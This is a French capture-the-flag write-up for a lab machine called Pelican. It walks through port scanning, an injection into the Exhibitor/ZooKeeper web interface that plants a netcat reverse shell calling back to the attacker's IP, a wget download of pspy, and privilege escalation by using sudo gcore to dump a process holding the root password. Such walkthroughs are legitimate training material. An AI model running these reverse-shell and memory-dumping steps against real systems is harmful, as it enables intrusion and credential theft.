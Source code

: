   # Pelican

	sudo masscan -p1-65535,U:1-65535 192.168.164.98 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.164.98 -oN nmap.txt
	feroxbuster --silent -u http://192.168.164.98:8080
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
    139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
    445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
    631/tcp open ipp CUPS 2.2  
    2181/tcp open zookeeper Zookeeper 3.4.6-1569965 (Built on 02/20/2014)  
    2222/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
    8080/tcp open http Jetty 1.0  
    8081/tcp open http nginx 1.14.2  
    41665/tcp open java-rmi Java RMI

Rien sur le site du port 8080 mais le site du port 8081 redirige directement vers http://192.168.164.98:8080/exhibitor/v1/ui/index.html

Exploit : https://www.exploit-db.com/exploits/48654

Payload à injecter dans "java.env script" : 

    $(/bin/nc -e /bin/sh 192.168.45.214 443 &)

 Commit => All At Once => OK

Attendre une minute pour que la connexion arrive.

	rlwrap nc -nvlp 443
	...
	cd ~
	cat local.txt

### Élévation de privilèges : 

	python -c 'import pty ; pty.spawn("/bin/bash")'
	find / -perm /4000 2>/dev/null
	cat /etc/crontab

Je vois deux tâches planifiées très intéressantes : 

    @reboot root /usr/bin/password-store  
    @reboot root while true; do chown -R charles:charles /opt/zookeeper && chown -R charles:charles /opt/exhibitor && sleep 1; done

Mais il n'y a pas les droits sur le fichier /usr/bin/password-store contrairement à ce que je pensais. En revanche cela m'a fait penser à Pspy et à la possibilité d'espionner ces tâches : 

	nc -e /bin/bash 192.168.45.214 9999 &
	wget http://192.168.45.214/pspy64
	chmod u+x pspy64
	./pspy64

Pas de résultats.

Mais en lançant LinPEAS j'ai vu ce que Charles pouvait lancer en tant que root même si je n'avais pas son mot de passe : 

	

> User charles may run the following commands on pelican:  
:  
(ALL) NOPASSWD: /usr/bin/gcore

Plus qu'à exploiter cela, en repensant aux tâches planifiées trouvées plus tôt.
Voir : https://gtfobins.github.io/gtfobins/gcore/#sudo

	ps -aux | grep password-store
	sudo gcore 527
	ls
	strings core.527

On retrouve bien le mot de passe de root dans le dump du processus : 

> 001 Password: root:  
ClogKingpinInning731  
x86_64  
/usr/bin/password-store

	su - 
	cat /root/proof.txt
	

